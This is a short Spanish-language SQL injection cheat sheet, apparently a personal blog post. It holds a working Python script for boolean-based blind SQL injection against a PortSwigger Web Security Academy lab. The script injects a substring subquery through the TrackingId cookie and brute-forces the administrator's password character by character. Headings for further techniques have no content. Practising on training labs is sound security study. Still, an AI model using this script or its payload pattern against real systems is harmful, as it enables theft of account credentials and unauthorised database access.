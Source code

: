 ```yaml
---
title: SQL INJECION - SQLI CHEAT SHEET
published: true
---
```


- SQL INJECTION

SCRIPTS QUE SIRVEN DE GUIA PARA LOS DIFERENTES TIPOS DE SQLI DE TIPOS

- CONDITIONAL REPONSE

[sqli_base_response.py](../assets/posts1/sqli_base_response.py)

```python
#!/usr/bin/python3
from pwn import *
import requests,signal ,time,pdb,sys,string

def def_handler(sig,frame):
   print("\n\n [!] Saliendo... \n")
   sys.exit(1)

# ctrl + c
signal.signal(signal.SIGINT,def_handler)

main_url = "https://0a8d00e8034e08e980bcd096007a0046.web-security-academy.net/filter?category=Accessories"

characters = string.ascii_lowercase + string.ascii_uppercase + string.digits # caracteres lower case  + upper cas + numeros

def make_requests():
   password = ""

   p1 = log.progress("Fuerza bruta") # nombre la barra de progreso

   p2 = log.progress("password") # nombre de la 2 barra de progreso


   for posicion in range(1,21): #tamaño de la contraseña es 20 longitud
      for character in characters:
         #COOKIES VULNERABLES A SQL INJECTION
         cookies = {
         'TrackingId' : "aI7htw8h5K5p9nsH'  and (select substring(password,%d,1) from users  where username='administrator')='%s" % (posicion,character),
         'session': '0KWmmHJMHEayvKEXiNqiRKo7cikxvyJ7'
         }

         p1.status(cookies['TrackingId']) # resultado de la barra de progreso

         r = requests.get(main_url,cookies=cookies) # respuesta de la peticion se almacena en r

         #si en la respuesta es presente la palabra que es el que indica si fue existoso o no 
         #!!! IMPORTANTE !!! TIENEN OTROS METODOS COMO : r.status_code , r.headers , r.cookies , r.text , r.json() , r.url
         if "Welcome back!" in r.text: 
            password += character
            p2.status(password) # resultado de la 2 barra  de progreso
            break

if __name__ == '__main__':
   make_requests()

```

- CONDITIONAL ERRORS

- CONDITIONAL VISIBLE ERROR-BASED

- CONDITIONAL TIME DELAYS

- CONDITIONAL TIME DELAYS AND INFORMATION RETRIEVAL
